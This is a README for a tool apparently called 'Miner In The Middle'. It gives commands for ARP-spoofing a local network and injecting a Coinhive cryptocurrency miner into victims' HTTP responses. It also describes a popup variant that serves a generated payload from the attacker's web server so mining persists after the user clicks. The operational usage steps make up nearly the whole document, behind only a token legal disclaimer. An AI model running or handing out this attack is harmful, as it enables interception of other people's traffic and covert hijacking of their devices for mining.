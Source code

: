 
		
Miner In The Middle
Author - Anthony Russell
@DotNetRussell

Not for illegal use!
(unless you own the network or have permission from everyone on it, it's illegal)
	 
	 
You will first need to make sure that you have `MitMf` and also `Twisted version 15.5.0`
To install dependencies run:
    ./miner_itm.sh --install
	
    ----To launch a standard miner attack----
	
    The standard network attack arp spoofs the network, then injects a miner into http responses.
    To launch a standard miner injection attack run:
    ./miner_itm.sh <coinhive api key> <gateway ip> <interface name>
	
	
    ----To launch a popup miner attack----
	
    A popup miner attack will attempt to inject a script into http responses. The script will wait for the user to click a button.
    When they do it will spawn a popup with their site in it and the origonal window will launch a miner. This is nice for persistence. 
	
    First run:
        ./miner_itm.sh --generate <coinhive api key>
	
    and place payload.html into your web server root directory
	
    Second run:
        ./miner_itm.sh -p <gateway ip> <interface name> <web server ip>
	
	

